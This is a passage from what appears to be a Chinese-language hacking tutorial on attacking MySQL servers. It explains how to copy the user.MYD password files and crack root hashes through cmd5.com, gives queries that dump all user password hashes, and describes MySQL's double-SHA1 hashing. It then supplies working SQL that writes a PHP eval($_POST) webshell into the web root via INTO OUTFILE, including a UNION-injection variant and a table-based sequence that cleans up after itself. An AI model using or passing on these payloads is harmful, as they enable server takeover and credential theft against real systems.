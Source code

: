 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywq4evnlpj20go09mwj6.jpg)

查看binlog日志

### **2.获取Mysql数据库user表**

MYSQL所有设置默认都保存在“C:\Program Files\MYSQL\MYSQL Server 5.0\data\MYSQL”中，也就是安装程序的data目录下，有关用户一共有三个文件即user.frm、user.MYD和 user.MYI，MYSQL数据库用户密码都保存在user.MYD文件中，包括root用户和其他用户的密码。在有权限的情况下，我们可以将User.frm、user.myd和User.myi三个文件下载到本地，通过本地的mysql环境直接读取user表中的数据。当然也可使用文本编辑器将user.MYD打开将root账号的密码复制出来到到cmd5.com进行查询和破解。对于Mysql数据库密码如果通过cmd5.com等网站不能查询到密码则需要自己手动破解，有关Mysql数据库密码手动破解，请查阅下一章。

### **3.Mysql密码查询**

可以通过以下查询语句直接查询mysql数据库中的所有用户和密码。

```sql
1. select user,password from mysql.user; 
2. select user,password from mysql.user where user ='root'; 
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywxf7bmxpj20ld0deaat.jpg)

### **4.MySQL密码加密算法**

MySQL实际上是使用了两次SHA1夹杂一次unhex的方式对用户密码进行了加密。具体的算法可以用公式表示：password_str = concat('*', sha1(unhex(sha1(password))))，可以通过查询语句进行验证，查询结果如下图所示。

```sql
select password('mypassword'),concat('*',sha1(unhex(sha1('mypassword'))));  
```

mysql数据库加密算法

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywxfwzhywj20og0bzq3a.jpg)

## **三、Mysql获取webshell**

Mysql root账号网站获取webshell具备的条件：

1.知道站点物理路径，网站物理途径可以通过phpinfo函数、登录后台查看系统属性、文件出错信息、查看网站源代码以及路径猜测等方法获取。

2.有足够大的权限，最好是root账号权限或者具备root权限的其它账号，可以用select user,password from mysql.user进行测试。

3.magic_quotes_gpc()=OFF。对于**PHP magic_quotes_gpc=on**的情况，可以不对输入和输出数据库的字符串数据作addslashes()和stripslashes()的操作，数据也会正常显示。 对于PHP magic_quotes_gpc=off 的情况必须使用addslashes()对输入数据进行处理，但并不需要使用stripslashes()格式化输出，因为addslashes()并未将反斜杠一起写入数据库，只是帮助mysql完成了sql语句的执行。

**4.直接导出webshell，执行下面语句**

```sql
1. Select '<?php eval($_POST[cmd])?>' into outfile '物理路径'; 
2. and 1=2 union all select 一句话HEX值 into outfile '路径'; 
```

也可以通过创建表来直接完成，其中d:/www/exehack.php为webshell的名称和路径：

```sql
1. CREATE TABLE `mysql`.`darkmoon` (`darkmoon1` TEXT NOT NULL ); 
2. INSERT INTO `mysql`.`darkmoon` (`darkmoon1` ) VALUES ('<?php @eval($_POST[pass]);?>'); 
3. SELECT `darkmoon1` FROM `darkmoon` INTO OUTFILE 'd://Wh0ale.php';
4. DROP TABLE IF EXISTS `darkmoon`; 
```
